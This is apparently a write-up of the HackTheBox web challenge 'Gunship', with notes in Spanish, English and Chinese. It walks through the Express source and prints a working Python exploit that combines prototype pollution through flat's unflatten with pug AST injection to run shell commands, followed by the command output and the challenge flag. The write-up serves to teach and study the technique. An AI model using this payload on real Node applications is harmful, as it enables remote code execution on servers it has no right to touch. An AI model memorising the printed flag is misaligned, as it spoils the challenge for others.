

# Gunship

> **ES:** Web · VERY EASY - revision del codigo Express (routes/views) hacia el flag.
> **EN:** Web - VERY EASY - Express code review (routes/views) to the flag.
:::note CHALLENGE DESCRIPTION

Difficulty: VERY EASY

A city of lights, with retrofuturistic 80s peoples, and coffee, and drinks from another world... all the wooing in the world to make you feel more lonely... this ride ends here, with a tribute page of the British synthwave band called Gunship. 🎶

一座光之城，住着80年代复古未来风的人们，咖啡和来自异世界的饮品……世间所有的诱惑，却让你感到更加孤独……这段旅程在此结束，献给英国合成器浪潮乐队Gunship的致敬页面。🎶

:::

```javascript title="index.js"
const express       = require('express');
const app           = express();
const routes        = require('./routes');
const path          = require('path');

app.use(express.json());
app.set('views','./views');
app.use('/static', express.static(path.resolve('static')));

app.use(routes);

app.all('*', (req, res) => {
    return res.status(404).send('404 page not found');
});

app.listen(1337, () => console.log('Listening on port 1337'));
```

在页面底部发现一个输入框



根据 POST 发送的路由，定位到

```javascript title="challenge\routes\index.js"
const path              = require('path');
const express           = require('express');
const pug                = require('pug');
const {unflatten}     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const {artist} = unflatten(req.body);

    if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
        });
    } else {
        return res.json({
            'response': 'Please provide us with the full name of an existing member.'
        });
    }
});

module.exports = router;
```

参考以下两个文章

- [How AST Injection and Prototype Pollution Ignite Threats | by rayepeng | Medium](https://rayepeng.medium.com/how-ast-injection-and-prototype-pollution-ignite-threats-abb165164a68)
- [一文带你理解 AST Injection - 先知社区](https://xz.aliyun.com/t/12635?time__1311=mqmhDvqIx%2BOKDsD7GQ0%3DQoqWqGIxG%3D%2B5b4D&alichlgref=https%3A%2F%2Fwww.google.com%2F)

编写攻击 exp

```python
import requests
import base64

TARGET_URL = "http://94.237.56.248:50213"


command = "ls -lh"

print("Command: {}\n".format(command))

r = requests.post(
    TARGET_URL + "/api/submit",
    json={
        "artist.name": "Haigh",
        "__proto__.block": {
            "type": "Text",
            "line": "process.mainModule.require('child_process').execSync('$({command} | base64 > /app/static/out)')".format(command=command),
        },
    },
)

r = requests.get("http://94.237.56.248:50213/static/out").text

print(base64.b64decode(r).decode())
```

对网站进行交互

```bash
Command: ls -lh

total 56K
-rw-r--r--    1 nobody   nobody        56 Aug 13  2021 flagpJtu8
-rw-r--r--    1 nobody   nobody       441 Oct  9  2020 index.js
drwxr-xr-x   89 root     root        4.0K Aug 13  2021 node_modules
-rw-r--r--    1 nobody   nobody       359 Oct  9  2020 package.json
drwxr-xr-x    2 nobody   nobody      4.0K Aug 13  2021 routes
drwxr-xr-x    1 nobody   nobody      4.0K Mar 11 11:25 static
drwxr-xr-x    2 nobody   nobody      4.0K Aug 13  2021 views
-rw-r--r--    1 nobody   nobody     25.5K Oct  9  2020 yarn.lock

Command: cat flagpJtu8

HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```

```plaintext title="Flag"
HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```

---

## Aviso Legal / Disclaimer

> **ES:** Uso educativo y personal únicamente. No afiliado a HackTheBox. No publicar flags de contenido activo.
> **EN:** Educational and personal use only. Not affiliated with HackTheBox. Do not publish active content flags.

_Fecha de edición: 2026-09-24_
